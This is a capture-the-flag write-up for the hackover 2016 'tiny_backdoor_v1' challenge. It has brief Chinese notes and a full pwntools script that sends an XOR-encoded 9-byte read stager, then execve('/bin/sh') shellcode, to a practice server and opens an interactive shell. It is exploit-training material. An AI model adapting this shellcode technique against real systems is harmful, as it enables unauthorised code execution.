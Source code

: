 * ### tiny_backdoor_v1_hackover_2016

  能写9字节的shellcode

  先写个read，然后写更长的shellcode

  ```python
  from pwn import *
  context(arch = 'amd64', os = 'linux')
  r = remote('pwn.buuoj.cn',20050)
  fuck = [
      0xb3,0x91,0x7f,0xdd,0x62,0x81,0x11,0x6a,
      0x90,0x8c,0xdb,0xae,0x70,0xa7,0x3f,0xff,
      0x3a,0xc3,0xe6,0x32,0xff,0x5e,0x46,0x63,
      0x9a,0x14,0xb7,0x9e,0xad,0xf6,0x09,0xdc,
      0x33,0x2f,0x35,0xc6,0x6f,0x1a,0x7f,0xff,
      0x1b,0xc2,0xb5,0xb7,0xb7,0xc2,0xd1,0x75,
  ]
  def xor(str):
  	res = ''
  	for i in range(len(str)):
  		res += chr(ord(str[i])^fuck[i])
  	return res
  #payload = '\xe6\xd9\xf6\x38\x2a\x02\xfd\x3a\xc3'
  shellasm = '''
  pop rbp
  pop rax
  pop rdi
  mov dl,0xff
  syscall
  jmp rsi
  '''
  shellcode = asm(shellasm)
  payload = xor(shellcode)
  log.info(len(payload))
  r.send(payload)
  
  shellasm = '''
  mov rax,59
  mov rdi,0x600170
  xor rsi,rsi
  xor rdx,rdx
  syscall
  '''
  shellcode = '\x90'*0x1e+asm(shellasm)
  payload = shellcode.ljust(0x3a,'a')+'/bin/sh\x00'
  log.info(len(payload))
  r.send(payload)
  r.interactive()
  ```

  






